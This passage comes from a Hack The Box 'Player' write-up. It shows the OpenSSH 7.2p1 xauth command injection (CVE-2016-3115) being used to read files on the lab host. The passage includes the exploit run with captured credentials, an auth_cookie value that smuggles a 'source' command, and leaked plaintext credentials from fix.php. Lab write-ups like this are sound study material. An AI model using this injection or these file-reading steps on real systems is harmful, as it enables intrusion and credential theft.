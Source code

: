
This seems like a dead end so I will move on.

## OpenSSH xauth vulnerability

There are a few CVE's for version 7.2 of OpenSSH running on port 6686, one that could be interesting is the CVE-2016-3115: OpenSSH 7.2p1 - (Authenticated) xauth Command Injection. This should allow me to inject xauth commands by sending forged x11 channel requests. But `X11Forwarding yes` needs to be enabled for it to work. I'll fetch the sshd config file with the ffmpeg exploit and hope it's the one used by the sshd daemon running on port 6686.

![](/assets/images/htb-writeup-player/sshd_config.png)

X11Forwarding is enabled and it's not a default configuration so this is probably a hint that I'm on the right track.

To run the exploit I just pass the IP/port and the credentials, then once it's connected I can write and read files. To verify that's it's working correctly, I read `/etc/hostname` and see that it returns `player` as expected.

```
root@ragingunicorn:~/htb/player# python xauth.py 10.10.10.145 6686 telegen 'd-bC|jC!2uepS/w'
INFO:__main__:connecting to: telegen:d-bC|jC!2uepS/w@10.10.10.145:6686
INFO:__main__:connected!
INFO:__main__:
Available commands:
    .info
    .readfile <path>
    .writefile <path> <data>
    .exit .quit
    <any xauth command or type help>

#> .readfile /etc/hostname
DEBUG:__main__:auth_cookie: 'xxxx\nsource /etc/hostname\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:player
#>
```

I'll grab the flag next since I know the user directory is `/home/telegen`:

```
#> .readfile /home/telegen/user.txt
DEBUG:__main__:auth_cookie: 'xxxx\nsource /home/telegen/user.txt\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:30e47ab....
```

On the staging site there was that `fix.php` file that was erroring out but I couldn't read it from the ffmpeg exploit. I have access to read this file now with `telegen` and I can a potential set of credentials: `peter / CQXpm\z)G5D#%S$y=`

```
#> .readfile /var/www/staging/fix.php
DEBUG:__main__:auth_cookie: 'xxxx\nsource /var/www/staging/fix.php\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:<?php
class
protected
...
//modified
//for
//fix
//peter
//CQXpm\z)G5D#%S$y=
}
public
if($result
```